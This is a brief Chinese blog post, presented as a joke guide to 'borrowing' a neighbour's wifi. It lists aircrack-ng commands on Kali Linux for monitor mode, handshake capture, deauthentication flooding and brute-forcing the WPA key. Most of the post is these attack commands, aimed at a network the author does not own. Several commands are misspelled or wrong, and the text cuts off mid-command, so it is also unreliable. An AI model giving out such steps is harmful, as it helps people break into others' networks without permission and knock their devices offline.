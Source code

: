 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start eth0
</pre>
查找无线网络：airodump-ng eth0
网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

暴力破解：aircrack-ng outfile1.cap -w /